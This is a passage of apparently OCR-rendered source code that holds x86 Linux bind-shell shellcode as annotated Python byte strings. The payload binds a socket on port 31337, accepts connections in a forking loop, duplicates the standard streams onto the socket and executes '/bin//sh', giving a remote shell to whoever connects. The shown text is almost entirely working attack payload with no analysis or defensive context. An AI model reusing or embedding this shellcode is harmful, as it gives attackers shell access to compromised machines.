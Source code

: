 ```python
    #

    "\x89\xe1"              # mov %esp,%ecx 
    "\xcd\x80"              # int $0x80 

    "\x5b"                  # pop %ebx 
    "\x5d"                  # pop %ebp 
    "\x52"                  # push %edx 
    "\x66\xbd\x69\x7a"      # mov $0x7a69,%bp (0x7a69 = 31337)
    "\x0f\xcd"              # bswap %ebp 
    "\x09\xdd"              # or %ebx,%ebp 
    "\x55"                  # push %ebp 
    "\x6a\x10"              # push $0x10 
    "\x51"                  # push %ecx 
    "\x50"                  # push %eax 
    "\x89\xe1"              # mov %esp,%ecx 
    "\xb0\x66"              # mov $0x66,%al 
    "\xcd\x80"              # int $0x80 
    "\xb3\x04"              # mov $0x4,%bl 
    "\xb0\x66"              # mov $0x66,%al 
    "\xcd\x80"              # int $0x80 

    #
    # <_acceptloop>:
    #

    "\x5f"                  # pop %edi 
    "\x50"                  # push %eax 
    "\x50"                  # push %eax 
    "\x57"                  # push %edi 
    "\x89\xe1"              # mov %esp,%ecx 
    "\x43"                  # inc %ebx 
    "\xb0\x66"              # mov $0x66,%al 
    "\xcd\x80"              # int $0x80 
    "\x93"                  # xchg %eax,%ebx 
    "\xb0\x02"              # mov $0x2,%al 
    "\xcd\x80"              # int $0x80 
    "\x85\xc0"              # test %eax,%eax 
    "\x75\x1a"              # jne <_parent> 
    "\x59"                  # pop %ecx 

    #
    # <_dup2loop>:
    #

    "\xb0\x3f"              # mov $0x3f,%al
    "\xcd\x80"              # int $0x80
    "\x49"                  # dec %ecx
    "\x79\xf9"              # jns <_dup2loop>

    "\xb0\x0b"              # mov $0xb,%al
    "\x68\x2f\x2f\x73\x68"  # push $0x68732f2f
    "\x68\x2f\x62\x69\x6e"  # push $0x6e69622f
    "\x89\xe3"              # mov %esp,%ebx
    "\x52"                  # push %edx
    "\x53"                  # push %ebx
    "\xeb\xb2"              # jmp <_doint>

    #
    # <_parent>:
    #

    "\x6a\x06"              # push $0x6
```